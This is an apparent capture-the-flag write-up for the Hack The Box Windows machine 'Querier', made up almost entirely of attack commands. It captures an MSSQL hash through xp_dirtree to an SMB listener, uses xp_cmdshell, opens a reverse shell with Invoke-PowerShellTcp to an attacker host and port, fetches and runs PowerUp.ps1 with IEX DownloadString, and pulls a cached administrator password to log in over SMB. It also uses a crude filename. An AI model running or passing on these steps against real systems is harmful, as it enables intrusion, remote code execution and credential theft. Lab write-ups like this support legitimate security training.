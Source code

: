 ```yaml
---
title: Querier - Hack The Box
author: "0xPThree"
description: "N/A"
date: 2019-06-01
image: images/querier_logo.png
categories: [hackthebox, windows, medium, mssql, powerup, smb]
format: html
editor: visual
jupyter: python3
toc: true
---
```


![](images/querier_logo.png){: style="float: right; width: 200px; margin-left: 2em"}

N/A<br><br><br><br><br><br><br>

----------------

# USER

**LISTENER:**
```bash
python smbserver.py -smb2support -ip 10.10.14.3 reporting /tmp 
```

**RUN:**
```bash
python mssqlclient.py -windows-auth querier/reporting:PcwTWTHRwryjc\$c6@10.10.10.125
SQL> EXEC master.sys.xp_dirtree '\\10.10.14.3\tmp'
```

**Connect with credentials:**
```bash
python mssqlclient.py querier/mssql-svc:corporate568@10.10.10.125 -windows-auth

> xp_cmdshell type C:\Users\mssql-svc\Desktop\user.txt
```

--------
<br><br>
# ROOT


**Start `smbserver` and `netcat` listener:**
```bash
$ python smbserver.py -smb2support -ip 10.10.14.11 querier /tmp
$ nc -lnvp 4444
```

**Get reverse shell with `PowerShellTcp`:**
```bash
SQL > xp_cmdshell move \\10.10.14.11\querier\Invoke-PowerShellTcp.ps1 C:\Users\mssql-svc\Desktop\pENIS.ps1
SQL > xp_cmdshell "powershell -file c:\Users\mssql-svc\Desktop\pENIS.ps1 -Reverse -IPAddress 10.10.14.11 -Port 4444"

PS > IEX (New-Object Net.WebClient).DownloadString('\\10.10.14.11\querier\PowerUp.ps1'); Invoke-AllChecks
 [*] Checking for cached Group Policy Preferences .xml files....
 Usernames : {Administrator}
 Passwords : {MyUnclesAreMarioAndLuigi!!1!}
```

**Grab flag:**
```bash
$ python smbclient.py querier/Administrator:MyUnclesAreMarioAndLuigi\!\!1\!@10.10.10.125
$ use C$
$ cd Users/Administrator/Desktop
$ get root.txt
 ```